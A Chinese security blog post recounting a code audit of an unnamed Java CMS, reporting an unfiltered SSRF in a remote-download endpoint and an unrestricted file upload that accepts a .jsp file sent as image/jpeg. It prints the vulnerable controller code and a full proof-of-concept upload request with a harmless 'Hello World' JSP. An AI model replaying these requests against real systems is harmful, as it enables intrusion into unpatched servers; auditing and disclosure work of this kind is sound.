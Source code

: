 #  某系统回显SSRF+文件上传0Day审计过程   
原创 Ting丶  Ting的安全笔记   2024-08-06 20:11  
  
#上班摸鱼的时间，打开朋友发的源码审了审，准备储备点C*VD，为后面............（彩蛋：加V：f18089848863进群）  
# 回显SSRF  
  
其实一开始是想审一下任意文件下载的，所以全局搜索了一下download 函数 如图  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vdnibnC7YIATDtypA1pyzDIhj4qPicRnxjfEdRlzRpvyWgAlw2hSL1Esdg3cHkq1hNDtEkiaSAwKoHMQ/640?wx_fmt=png&from=appmsg "")  
  
然后看到这里有一个远程下载函数downloadFromUrl  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vdnibnC7YIATDtypA1pyzDIhNy5mEgrQEia9snbodYD0vQzgwDe3NibvftSBicKv1mZUHqejR6Znjdwng/640?wx_fmt=png&from=appmsg "")  
  
其中调用了InputStream ins = HttpEngine.downloadFromUrl(url);跟进HttpEngine看看![](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vdnibnC7YIATDtypA1pyzDIhkJlwtylF0rBdVvQmJzv5LcFqCyuIaKl4TiaBbqVYibbJHicrhIWX2mt5w/640?wx_fmt=png&from=appmsg "")  
  
  
看来是没有任何过滤的 接下来看看哪个位置有用到CMSTools的downloadFromUrl方法  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vdnibnC7YIATDtypA1pyzDIhykJrT0x01XFxdSicgtgUls8zn06iaJ4612GSibPzme8AcIqLexn5uYQGw/640?wx_fmt=png&from=appmsg "")  
  
发现在一个控制器下直接使用了CMSTools的downloadFromUrl方法  class对应代码如下  
```
    @RequestMapping({"*****DownloadFile"})
    public void actionDownloadFile(HttpServletRequest request, HttpServletResponse response) {
        String url = request.getParameter("url");
        String name = request.getParameter("name");
        String length = request.getParameter("length");
        CMSTools.downloadFromUrl(url, name, length, request, response);
    }
```  
  
构造数据包如图  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vdnibnC7YIATDtypA1pyzDIhpdQhd8wzKlNg2aHrGeg0W3UbHZzhiaiaKqaCfBicFO718qZlQgtREicZCg/640?wx_fmt=png&from=appmsg "")  
  
发现并没有读取到passwd（已确定是linux） 回到代码  
```
URL url = new URL(remotePath);
HttpURLConnection conn = (HttpURLConnection)url.openConnection();
```  
  
发现这段代码使用了类型强转，转为了HttpURLConnection，也就是说本身url可以使用http、file等协议的，现在只能使用http协议了，不过也是可以SSRF访问内网资源了  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vdnibnC7YIATDtypA1pyzDIhFGOMIxVs5KLuI66Z28eQic97Fj2zDOIte9wFWDKP2Yt2yKFXNZTpNtA/640?wx_fmt=png&from=appmsg "")  
  
DNSlog![](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vdnibnC7YIATDtypA1pyzDIhLNGwpsqsIiaWpo2JB0CNfZcf877u70jWln7nztxRRQYGsLGuF0DP0xw/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vdnibnC7YIATDtypA1pyzDIhDt8uSOCb05ficRZ9o9JE6OBmjRYaNgic1FKGqLcWdnibtib5fQWPT1wFww/640?wx_fmt=png&from=appmsg "")  
  
# 文件上传  
  
过程很简单就不多赘述了  
  
查看controller层，发现存在文件上传接口，源码如下  
```
    @RequestMapping({"upload********"})
    public void uploadFileApp(@RequestParam CommonsMultipartFile file, HttpServletRequest request, HttpServletResponse response) {
        File parent = new File("********");
        if (!parent.exists()) {
            parent.mkdirs();
        }

        String name = file.getOriginalFilename();
        String alias = UUID.randomUUID().toString();
        if (name.indexOf(".") > -1) {
            alias = alias + name.substring(name.lastIndexOf("."), name.length());
        }

        File f = new File("********" + alias);

        try {
            FileUtils.copyInputStreamToFile(file.getInputStream(), f);
        } catch (Exception var9) {
            var9.printStackTrace();
        }

        JSONObject jo = new JSONObject();
        jo.put("name", alias);
        jo.put("url", "/file/upload/" + alias);
        CMSTools.writeToResponse(response, jo.toString());
    }
```  
  
上级@RequestMapping({"/app"})，因此文件上传接口是/app/upload********  
```
POST /app/upload******** HTTP/1.1
Host: 
Content-Length: 250
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Accept: */*
Sec-Ch-Ua-Platform: "Windows"
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryGEz9PaQkLuhnjlP4
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Priority: u=1, i
Connection: keep-alive

------WebKitFormBoundaryGEz9PaQkLuhnjlP4
Content-Disposition: form-data; name="file"; filename="706ccd1d8484f7117913545b03eb1dc.jsp"
Content-Type: image/jpeg

<%
out.println("Hello World");
%>
------WebKitFormBoundaryGEz9PaQkLuhnjlP4--




```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vdnibnC7YIATDtypA1pyzDIhLMX2d2siaQ1bnzIkzt4IXrRn1uvIh0RHpIN2h7IIUve48qx9A7McdOg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vdnibnC7YIATDtypA1pyzDIhHe3IgXhfpdXBgGqt5lSC3M9fvzVD20enJYEcTSVt6AQHtI4ribibbwdA/640?wx_fmt=png&from=appmsg "")  
  
  
